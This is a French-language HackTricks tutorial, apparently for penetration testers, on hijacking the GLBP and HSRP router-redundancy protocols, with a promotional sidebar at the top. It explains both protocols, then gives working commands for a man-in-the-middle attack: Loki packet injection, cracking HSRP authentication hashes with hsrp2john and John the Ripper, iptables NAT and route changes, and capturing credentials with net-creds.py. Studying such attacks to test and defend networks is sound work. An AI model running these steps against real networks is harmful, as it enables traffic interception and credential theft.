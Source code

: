 # Attaques GLBP & HSRP

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Aperçu du détournement FHRP

### Aperçu de FHRP
FHRP est conçu pour fournir une robustesse réseau en fusionnant plusieurs routeurs en une seule unité virtuelle, améliorant ainsi la distribution de charge et la tolérance aux pannes. Cisco Systems a introduit des protocoles importants dans cette suite, tels que GLBP et HSRP.

### Aperçu du protocole GLBP
La création de Cisco, GLBP, fonctionne sur la pile TCP/IP, utilisant UDP sur le port 3222 pour la communication. Les routeurs dans un groupe GLBP échangent des paquets "hello" à des intervalles de 3 secondes. Si un routeur ne parvient pas à envoyer ces paquets pendant 10 secondes, il est présumé hors ligne. Cependant, ces minuteries ne sont pas fixes et peuvent être modifiées.

### Opérations GLBP et distribution de charge
GLBP se distingue en permettant la distribution de charge entre les routeurs à l'aide d'une seule adresse IP virtuelle couplée à plusieurs adresses MAC virtuelles. Dans un groupe GLBP, chaque routeur participe à la transmission de paquets. Contrairement à HSRP/VRRP, GLBP offre un véritable équilibrage de charge grâce à plusieurs mécanismes :

- **Équilibrage de charge dépendant de l'hôte :** Maintient l'attribution d'adresse MAC AVF cohérente à un hôte, essentiel pour des configurations NAT stables.
- **Équilibrage de charge en round-robin :** L'approche par défaut, alternant l'attribution d'adresse MAC AVF parmi les hôtes demandeurs.
- **Équilibrage de charge pondéré en round-robin :** Distribue la charge en fonction de métriques de "Poids" prédéfinies.

### Composants clés et terminologies dans GLBP
- **AVG (Passerelle virtuelle active) :** Le routeur principal, responsable de l'attribution des adresses MAC aux routeurs pairs.
- **AVF (Transmetteur virtuel actif) :** Un routeur désigné pour gérer le trafic réseau.
- **Priorité GLBP :** Une métrique qui détermine l'AVG, commençant par une valeur par défaut de 100 et allant de 1 à 255.
- **Poids GLBP :** Reflète la charge actuelle sur un routeur, ajustable manuellement ou via le suivi d'objets.
- **Adresse IP virtuelle GLBP :** Sert de passerelle par défaut du réseau pour tous les appareils connectés.

Pour les interactions, GLBP utilise l'adresse multicast réservée 224.0.0.102 et le port UDP 3222. Les routeurs transmettent des paquets "hello" à des intervalles de 3 secondes et sont considérés comme non opérationnels si un paquet est manqué pendant une durée de 10 secondes.

### Mécanisme d'attaque GLBP
Un attaquant peut devenir le routeur principal en envoyant un paquet GLBP avec la valeur de priorité la plus élevée (255). Cela peut entraîner des attaques de déni de service ou de l'homme du milieu, permettant l'interception ou la redirection du trafic.

### Exécution d'une attaque GLBP avec Loki
[Loki](https://github.com/raizo62/loki_on_kali) peut effectuer une attaque GLBP en injectant un paquet avec une priorité et un poids définis à 255. Les étapes préalables à l'attaque consistent à recueillir des informations telles que l'adresse IP virtuelle, la présence d'authentification et les valeurs de priorité du routeur en utilisant des outils comme Wireshark.

Étapes de l'attaque :
1. Passer en mode promiscuité et activer le transfert IP.
2. Identifier le routeur cible et récupérer son IP.
3. Générer une ARP gratuit.
4. Injecter un paquet GLBP malveillant, en se faisant passer pour l'AVG.
5. Attribuer une adresse IP secondaire à l'interface réseau de l'attaquant, reflétant l'adresse IP virtuelle GLBP.
6. Mettre en œuvre SNAT pour une visibilité totale du trafic.
7. Ajuster le routage pour garantir un accès Internet continu via le routeur AVG d'origine.

En suivant ces étapes, l'attaquant se positionne en tant que "homme du milieu", capable d'intercepter et d'analyser le trafic réseau, y compris les données non chiffrées ou sensibles.

Pour une démonstration, voici les extraits de commandes requis :
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### Explication passive du détournement de HSRP avec détails de commande

#### Aperçu de HSRP (Hot Standby Router/Redundancy Protocol)
HSRP est un protocole propriétaire de Cisco conçu pour la redondance de passerelle réseau. Il permet la configuration de plusieurs routeurs physiques en une seule unité logique avec une adresse IP partagée. Cette unité logique est gérée par un routeur principal responsable de la direction du trafic. Contrairement à GLBP, qui utilise des métriques comme la priorité et le poids pour l'équilibrage de charge, HSRP repose sur un seul routeur actif pour la gestion du trafic.

#### Rôles et Terminologie dans HSRP
- **Routeur Actif HSRP**: Le dispositif agissant en tant que passerelle, gérant le flux de trafic.
- **Routeur Standby HSRP**: Un routeur de secours, prêt à prendre le relais si le routeur actif échoue.
- **Groupe HSRP**: Un ensemble de routeurs collaborant pour former un seul routeur virtuel résilient.
- **Adresse MAC HSRP**: Une adresse MAC virtuelle attribuée au routeur logique dans la configuration HSRP.
- **Adresse IP Virtuelle HSRP**: L'adresse IP virtuelle du groupe HSRP, agissant en tant que passerelle par défaut pour les appareils connectés.

#### Versions de HSRP
HSRP existe en deux versions, HSRPv1 et HSRPv2, différant principalement en capacité de groupe, utilisation d'IP multicast et structure d'adresse MAC virtuelle. Le protocole utilise des adresses IP multicast spécifiques pour l'échange d'informations de service, avec des paquets Hello envoyés toutes les 3 secondes. Un routeur est considéré comme inactif s'il ne reçoit aucun paquet dans un intervalle de 10 secondes.

#### Mécanisme d'attaque HSRP
Les attaques HSRP impliquent de prendre de force le rôle du Routeur Actif en injectant une valeur de priorité maximale. Cela peut entraîner une attaque de l'Homme du Milieu (MITM). Les étapes préalables essentielles à l'attaque incluent la collecte de données sur la configuration HSRP, ce qui peut être fait en utilisant Wireshark pour l'analyse du trafic.

#### Étapes pour contourner l'authentification HSRP
1. Enregistrer le trafic réseau contenant les données HSRP dans un fichier .pcap.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. Extraire les hachages MD5 du fichier .pcap en utilisant hsrp2john.py.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. Casser les hachages MD5 en utilisant John the Ripper.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Exécution de l'injection HSRP avec Loki**

1. Lancer Loki pour identifier les annonces HSRP.
2. Définir l'interface réseau en mode promiscuité et activer le transfert IP.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Utiliser Loki pour cibler le routeur spécifique, entrer le mot de passe HSRP cassé et effectuer les configurations nécessaires pour se faire passer pour le Routeur Actif.
4. Après avoir obtenu le rôle de Routeur Actif, configurer votre interface réseau et les tables IP pour intercepter le trafic légitime.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Modifier la table de routage pour router le trafic à travers l'ancien Routeur Actif.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Utiliser net-creds.py ou un utilitaire similaire pour capturer les informations d'identification du trafic intercepté.
```shell
sudo python2 net-creds.py -i eth0
```

L'exécution de ces étapes place l'attaquant dans une position pour intercepter et manipuler le trafic, similaire à la procédure de détournement de GLBP. Cela met en évidence la vulnérabilité des protocoles de redondance comme HSRP et la nécessité de mesures de sécurité robustes.
